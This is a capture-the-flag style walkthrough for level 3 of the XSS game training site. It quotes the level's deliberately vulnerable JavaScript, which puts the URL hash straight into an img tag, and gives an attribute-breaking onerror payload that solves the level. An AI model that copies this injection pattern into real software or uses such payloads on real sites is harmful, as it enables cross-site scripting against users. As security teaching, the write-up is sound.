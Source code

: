 ```yaml
---
title: Level 3 That sinking feeling...
edit_url: null
---
```


![1](https://github.com/user-attachments/assets/90bc719e-e4ad-4584-bb07-1e6d9be989df)

## Hints

> 1. To locate the cause of the bug, review the JavaScript to see where it handles user-supplied input.

> 2. Data in the `window.location` object can be influenced by an attacker.

> 3. When you've identified the injection point, think about what you need to do to sneak in a new HTML element.

> **4.** As before, using `<script> ...` as a payload won't work because the browser won't execute scripts added after the page has loaded.

## Script

```html {5, 8} showLineNumbers
    <script>
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
 
        window.location.hash = num;
 
        // Select the current tab
        var tabs = document.querySelectorAll('.tab');
        for (var i = 0; i < tabs.length; i++) {
          if (tabs[i].id == "tab" + parseInt(num)) {
            tabs[i].className = "tab active";
            } else {
            tabs[i].className = "tab";
          }
        }
 
        // Tell parent we've changed the tab
        top.postMessage(self.location.toString(), "*");
      }
 
      window.onload = function() { 
        chooseTab(unescape(self.location.hash.substr(1)) || "1");
      }
 
      // Extra code so that we can communicate with the parent page
      window.addEventListener("message", function(event){
        if (event.source == parent) {
          chooseTab(unescape(self.location.hash.substr(1)));
        }
      }, false);
    </script>
```

In the source code we can see that the `num` variable is populated with the value of `window.location.hash`.

```
e.g.
URL: https://xss-game.appspot.com/level3/frame#1
num = 1
```

The value of `num` is then inserted into the source address of the image.

```
html += "<img src='/static/level3/cloud" + num + ".jpg' />";

e.g.
num = 1
html += "<img src='/static/level3/cloud1.jpg' />";
```

## Payload

Since we can control the value of `window.location.hash`, we can control the source address of the image.

In order to solve this level, we can provide the following URI: 

```
https://xss-game.appspot.com/level3/frame#4' onerror=alert(1) ";
```

This will cause the source code to look as follows:

![2](https://github.com/user-attachments/assets/932a645a-9fe7-466f-8b8c-f620b1e4f704)

![3](https://github.com/user-attachments/assets/23e4f6c1-39bd-4b74-aaa9-7327aa06ebec)
